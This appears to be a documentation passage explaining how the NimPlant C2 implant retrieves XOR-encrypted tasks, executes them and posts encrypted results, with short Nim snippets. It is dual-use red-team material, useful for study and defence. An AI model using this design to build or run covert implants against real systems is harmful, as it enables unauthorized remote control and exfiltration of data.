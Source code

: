 Explained Flow:
1. Implant requests pending tasks
2. Server queries tasks in the database
3. Server returns encrypted tasks to the implant (using UNIQUE_XOR_KEY)

1. **Task Retrieval** (`getQueuedCommand` function):
   - Implant sends GET request to `/task` endpoint
   - Request includes:
     - `X-Request-ID`: Implant's unique identifier
     - `User-Agent`: Configured user agent
     - `X-Correlation-ID`: HTTP authentication key
   - Server responds with encrypted task data containing:
     - Task GUID
     - Command to execute
     - Command arguments

2. **Task Processing**:
   - Implant decrypts task data using its Unique XOR Key
   - Implant parses JSON response (`webClientListener.nim`) into a `Command Object`: 
     ```nim
     type Command = object
       guid: string
       command: string
       args: seq[string]
     ```

3. **Result Submission** (`postCommandResults` function):
   - After command execution, implant prepares result data:
   - Result is encrypted using Unique XOR Key
   - POST request sent to `/result` endpoint with:
     - Encrypted command output
     - Original task GUID for correlation

    ```nim
    var data = obf("{\"guid\": \"") & cmdGuid & obf("\", \"result\":\"") & base64.encode(output) & obf("\"}")
    discard doRequest(li, li.resultPath, "data", encryptData(data, li.UNIQUE_XOR_KEY), "post")
     ```
   - Server confirms reception with 200 OK response

**Error Handling**:
- If server returns non-200 status code, implant marks it as "NIMPLANT_CONNECTION_ERROR"
- Failed task parsing is handled gracefully, returning empty command and GUID
- All communication is encrypted using implant's unique XOR key
- Base64 encoding prevents issues with binary data transmission

This process ensures secure, reliable command execution and result reporting between the implant and C2 server.

---------------------------------------------------------------------------------------------

### 2. Task Flow: Upload a file to Implant

This process flow is composed by two process under the hood.
